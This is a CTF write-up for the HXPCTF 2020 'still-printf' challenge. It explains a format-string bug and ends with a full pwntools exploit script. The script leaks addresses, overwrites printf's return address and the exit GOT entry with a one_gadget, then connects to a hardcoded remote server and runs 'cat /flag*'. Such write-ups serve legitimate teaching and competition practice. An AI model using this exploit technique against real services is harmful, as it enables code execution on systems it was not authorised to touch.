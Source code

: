 ```yaml
---
layout: post
title: HXPCTF 2020 - still-printf 
category: Pwn
tags: 
    - hk
---
```

# Challenge Description

Desc ![m1](/assets/img/still-printf.PNG)

We got the following files and Source is provided. YAY

```
total 2020
drwx------ 2 1337 1337    4096 Dec 23 12:11 .
drwxr-xr-x 4 root root    4096 Dec 19 15:18 ..
-rw------- 1 root root    2421 Dec 20 09:48 .gdb_history
-rw-r--r-- 1 1337 1337    1410 Dec 19 05:46 Dockerfile
-rwxr-xr-x 1 1337 1337  165632 Jan  1  1970 ld-2.28.so
-rwxr-xr-x 1 1337 1337 1824496 Jan  1  1970 libc-2.28.so
-rwxr-xr-x 1 1337 1337   12336 Dec 18 15:09 still-printf
-rw-r--r-- 1 1337 1337     152 Dec 18 15:05 still-printf.c
-rwxr-xr-x 1 1337 1337   34712 Jan  1  1970 ynetd
```



```c
#include <stdio.h>
#include <stdlib.h>

int main() {
        char buf[0x30];
        setbuf(stdout, NULL);
        fgets(buf, sizeof(buf), stdin);
        printf(buf);
        exit(0);
}
```
A simple format-string bug. But the program exits right after printf.

 ![m1](/assets/img/question.jpg)

Here's the checksec output of the program.
```
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

I dumped the stack and looked for stack pointer chains.

![m2](/assets/img/stack_layout.png) ![m3](/assets/img/layout_2.PNG)

```
09:0048│   0x7ffe308bfc08 —▸ 0x7ffe308bfce8 —▸ 0x7ffe308c0894 ◂— '/root/hxpctf/still-printf/still-printf'
$15 -> $41 was the closest one that just 'perfectly' fits into the length of 0x2f bytes.
```

# Solution
My solution includes guessing ( ( stack_address&0xfff0 ) >> 4 ) byte value. The possibility is 1 / 4096.

We need to make this into multiple tries to get the code execution. printf calls vfprintf internally. By overwriting the return address of printf we can make this into multiple shots. But the challenging part is the max len of input, which is 0x2f bytes, but turns out that it's all we need to get code execution.

I knew the behaviour of vfprintf from another ctf challenge 0ctf quals - echoserver.
First i overwrote the pointer at 15th offset to point it to return address of printf (guessing LSB stack address).
THen we can use 41$n/hhn/hn to change the return address of printf.
But the way vfprintf works is, we can not do this, %`write`c%15$hn%`write`c%41$hn. When vfprintf encounters the first positional parameter `$` it copies all needed argument to an internal buffer, now if we do %41$hn to change the return address, it will fetch the original value which was there instead of the changed value.
The idea is the use "%c"*offset to reach the stack pointer and then we can do %hn to do the write so that the 41th offset points to the return address of printf. Then we can use %41$n/hn/hhn to change the return address.
The max input was 0x2f bytes and my payload fit exact 0x2f bytes.

Here's the main payload
```py
magic_number = 0x1337
payload = ('%c%p'+'%c'*8 +'%c%c%c' +f'%{ (magic_number + 1 ) - (0xd + 0x5 + 0x8 )}c'+'%hn'+f'%{ 0xdd - ( (magic_number+1)&0xff) }c'+'%41$hhn').ljust(0x2f)
```
Note: I use %p once in the payload to leak the a stack address.

If the bruteforce is sucessfull, later it's just trivial, i made this into multiple shots and partial overwrite exit_got with one_gadget.

# Exploit
```py
#!/usr/bin/python3
from pwn import *
from past.builtins import xrange
from time import sleep
import random
import subprocess

# Addr
libc_leak_offset = 0x2409b
gadget1 = 0x448a3
system = 0x449c0

# Hack
def Hack():
 global io

 exe = ELF('./still-printf')
 magic_number = 0x1337
 
 # Leak stack pointer And hope for good luck.
 payload = ('%c%p'+'%c'*8 +'%c%c%c' +f'%{ (magic_number + 1 ) - (0xd + 0x5 + 0x8 )}c'+'%hn'+f'%{ 0xdd - ( (magic_number+1)&0xff) }c'+'%41$hhn').ljust(0x2f)
 print(hex(len(payload)))
 io.send(payload)

 io.recvuntil('\xd0')
 stack_leak = int(io.recvn(14),0)
 print(hex(stack_leak))

 # Leak some addresses PIE - LIBC and overwrite return of printf again to get more shots. (stack leak used here)
 payload2 = f'%{0xdd}c%11$hhn%12$p%13$p'.ljust(0x28,'A').encode() + p64(stack_leak - 0x8)[0:7]
 io.send(payload2)
 io.recvuntil('\xd0')
 pie_base = int(io.recvn(14),0) - 0x1200
 libc_leak = int(io.recvn(14),0)
 libc_base = libc_leak - libc_leak_offset
 print(hex(libc_base))
 print(hex(pie_base))

 # Get pie_address on stack
 payload3 = f'%{0xdd}c%11$hhn%{ ((pie_base+exe.got["exit"] )&0xffff) - 0xdd}c%10$hn'.ljust(0x20,'A').encode() + p64(stack_leak + 0x30)+p64(stack_leak - 0x8)[0:7]
 print(hex(len(payload3)))
 io.send(payload3)

 # Partial overwrite it to one_gadget
 payload4 = f'%{0xdd}c%11$hhn%{ ( (libc_base+gadget1)&0xffff ) - 0xdd}c%12$hn'.ljust(0x28,'\0').encode() + p64(stack_leak - 0x8)[0:7]
 io.send(payload4)\

 payload5 = f'%{0xdd}c%11$hhn%{ ( ( ( (libc_base+gadget1)&0xffffffff)&0xffff0000 ) >> 16 ) - 0xdd}c%10$hn'.ljust(0x20,'A').encode() + p64(pie_base+exe.got['exit']+0x2)+p64(stack_leak - 0x8)[0:7]
 io.send(payload5)
 
 # setup Gadget constraints [rsp + 0x30] == NULL and exit.
 payload6 = f'%{ (pie_base + 0x1100 )&0xffff}c%10$hn'.ljust(0x20,'\0').encode()+p64(stack_leak-0x8) + p64(0)[0:7]
 print(hex(len(payload6)))
 io.send(payload6)

for i in xrange(4096):
 try:
  #io = process('./still-printf')
  io = remote('168.119.161.224',9509)
  Hack()
  io.sendline('cat /flag*')
  data = io.recv()
  print(data)
  io.interactive()
 except:
  io.close()
  continue
``` 
